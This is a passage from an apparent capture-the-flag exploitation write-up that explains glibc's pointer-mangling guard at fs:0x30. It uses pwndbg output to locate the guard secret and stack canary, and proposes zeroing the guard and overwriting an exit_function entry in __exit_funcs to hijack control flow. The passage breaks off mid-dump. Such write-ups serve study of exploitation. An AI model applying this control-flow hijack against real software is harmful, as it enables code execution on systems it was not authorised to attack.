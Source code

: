 ```c
```

`PTR_DEMANGLE` and `PTR_MANGLE` macros are responsible for mangling pointers and effectively translate to:

```asm
// PTR_MANGLE
xor    reg,QWORD PTR fs:0x30
rol    reg,0x11
call   reg


// PTR_DEMANGLE
ror    reg,0x11
xor    reg,QWORD PTR fs:0x30
call   reg
```

They utilize random secret value located at `fs:[0x30]`. We can look it up using the gdb:

```c
pwndbg> p $fs_base 
$1 = 0x7f4a9f284740
pwndbg> tele 0x7f4a9f284740 0x40
00:0000│  0x7f4a9f284740 ◂— 0x7f4a9f284740
01:0008│  0x7f4a9f284748 —▸ 0x7f4a9f285160 ◂— 0x1
02:0010│  0x7f4a9f284750 —▸ 0x7f4a9f284740 ◂— 0x7f4a9f284740
03:0018│  0x7f4a9f284758 ◂— 0x0
04:0020│  0x7f4a9f284760 ◂— 0x0
05:0028│  0x7f4a9f284768 ◂— 0x868b6bf393ba8900
06:0030│  0x7f4a9f284770 ◂— 0x45ec9e616a9ffde0
07:0038│  0x7f4a9f284778 ◂— 0x0
... ↓     56 skipped
pwndbg> canary
AT_RANDOM = 0x7fffce4f00c9 # points to (not masked) global canary value
Canary    = 0x868b6bf393ba8900 (may be incorrect on != glibc)
Found valid canaries on the stacks:
00:0000│  0x7fffce4efce8 ◂— 0x868b6bf393ba8900
00:0000│  0x7fffce4efd48 ◂— 0x868b6bf393ba8900
00:0000│  0x7fffce4efed8 ◂— 0x868b6bf393ba8900
```

Value at `0x7f4a9f284770` is our secret value. Yes - it is next to stack cookie, and we can easily read it because our vm stack is allocated just before page which contains the secret, but... do we really need to read it? The answer is "no" - we can overwrite it with 0, so `xor` instruction in `PTR_DEMANGLE` snippet will do nothing, so the situation is even better! We can call our function and pass the argument to it. All we need to do is to set `fn` (we need to rotate it (`rol`) by 0x11 first) and `args` struct members in existing `exit_function` struct or create our own. Both ways are easy to implement. I've decided to go with the first option because I see that there is already defined exit hook (output truncated):

```c
pwndbg> p __exit_funcs
$2 = (struct exit_function_list *) 0x7f4a9f4a1f00 <initial>
pwndbg> p initial
$3 = {
  next = 0x0,
  idx = 0x1,
  fns = {{
      flavor = 0x4,
      func = {
        at = 0xc257eba67b408bd9,
        on = {
          fn = 0xc257eba67b408bd9,
          arg = 0x0
        },
        cxa = {
```